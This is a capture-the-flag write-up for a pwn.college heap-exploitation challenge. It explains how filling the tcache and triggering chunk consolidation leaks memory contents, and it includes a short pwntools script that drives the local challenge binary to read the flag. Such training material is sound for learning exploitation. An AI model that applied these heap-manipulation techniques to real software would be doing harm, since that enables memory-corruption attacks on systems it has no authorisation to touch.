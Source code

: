 ```yaml
---
layout: post
title: (Dynamic Allocator Exploitation) level 1
categories: pwn.college Dynamic-Allocator-Exploitation
date: 2025-10-18 08:00:27 +0300
tags: pwn.college PIE ASLR heap house-of-force tecache metadata house-of-spirit
---
```

## Information
- category: pwn


## Description 
> Leverage consolidation to obtain the flag.

## Write-up

 Tcache holds up to **7** freed chunks of a given size. 

 Do: allocate N chunks of size S, then `free()` 7 of them to fill tcache. 
 
 ***Then free one more chunk of size S — that one will go to fastbin instead of tcache.***

 Later, perform the action (in this binary it’s `read_flag`/a `malloc` path) that causes consolidation. Now the freed chunk’s address can be returned. * Use `puts` (or similar) on that returned pointer — it prints whatever was left in the chunk (pointers, strings, etc.), leaking addresses.

## Exploit
```python
from pwn import *

elf = context.binary = ELF("/challenge/toddlerheap_level1.1")
global p
p = elf.process()

def malloc(idx,size):
    p.sendline(b"malloc")
    p.sendline(idx)
    p.sendline(size)

def free(idx):
    p.sendline(b"free")
    p.sendline(idx)

def puts(idx):
    p.sendline(b"puts")
    p.sendline(idx)

def read_flag():
    p.sendline(b"read_flag")

def quit():
    p.sendline(b"quit")

def exploit():
    for i in range(8):
        malloc(f"{i}".encode(),b"0")

    for i in range(8):
        free(f"{i}".encode())
    
    read_flag()

    puts(b"7")

    quit()
    
    p.interactive()
    
def main():
    exploit()

if __name__ == "__main__":
    main()
```